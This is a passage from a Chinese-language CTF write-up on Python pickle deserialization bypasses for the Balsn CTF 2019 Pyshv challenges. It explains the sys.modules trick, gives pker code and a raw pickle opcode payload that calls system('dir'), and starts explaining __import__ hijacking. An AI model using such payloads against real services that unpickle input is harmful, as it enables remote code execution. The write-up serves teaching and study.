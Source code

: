 ![image-20210811211736904](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210811211736904.png)

将输入的内容先转为ascii码形式被b64加密，再反序列化出来；其中白名单是sys模块

但是这个sys模块并不安全：sys模块有一个字典对象sys.modules，它包含了运行时所有py程序所引入的所有模块(a cache of imported modules) ，如果它被改变 引入的模块就会被改变。而它也包括sys本身，也就是套娃`sys.modules['sys']=sys.modules`。那么如果我们先从sys中引入modules: `import modules from sys`，然后将`modules['sys']`改为`modules['os']`就将成功引入os模块。

但有个缺陷是modules为dict，需要用`getattr(sys.modules[module], name)`进行取值，也就是先取出modules中的get函数，然后再用get来取出os，再进行替换修改

pker

```
modules=GLOBAL('sys', 'modules')
modules['sys']=modules
modules_get=GLOBAL('sys', 'get')
os=modules_get('os')
modules['sys']=os
system=GLOBAL('sys', 'system')
system('dir')
return
```

opcode:

```
b"csys\nmodules\np0\n0g0\nS'sys'\ng0\nscsys\nget\np2\n0g2\n(S'os'\ntRp3\n0g0\nS'sys'\ng3\nscsys\nsystem\np5\n0g5\n(S'dir'\ntR."
```

![image-20210811215300764](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210811215300764.png)
{{% /spoiler %}}

### -->>仅可以引入题目中自设空模块

{{% spoiler "栗子6 - [BalsnCTF 2019] Pyshv2" %}}
题目环境->https://github.com/sasdf/ctf/tree/master/tasks/2019/BalsnCTF/misc/pyshv2

`find_class()`稍有区别，在`getattr()`之前先用了`__import__()`

![image-20210811220348086](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210811220348086.png)

这次的白名单是`structs`，然鹅这是个空的模块 虚晃一枪。不过是空的不要紧，照样有内置方法。

![image-20210811220801646](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210811220801646.png)

`__builtins__`是所有模块公有的字典，记录所有的内建函数，可以通过对`__builtins__`内相应的键来修改对应的函数，上图中我们找到了eval方法，但取出eval这个键另外需要一个get方法才能做到。

我们知道，`__getattribute__`魔术方法可以访问任意属性。而同时`__import__`并不是铁板一块，它的全部参数是`__import__(name, globals=None, locals=None, fromlist=(), level=0)`，它可以被替换（通过导入builtins模块并赋值给`builtins.__import__`）来可以修改import语句的语义并且不会导致代码问题，而题目中重写的find_class()特地在getattr()之前调用了`__import__`，现在我们可以劫持这个__import__，让它变为`__getattribute__`，让我们引入的structs变为`structs.__getattribute__(structs).xxx`。

对于引入模块的检查只会出现在b'c'时，所以我们在用`S`操作码劫持`__import__`时并不会引发find_class()的过滤。
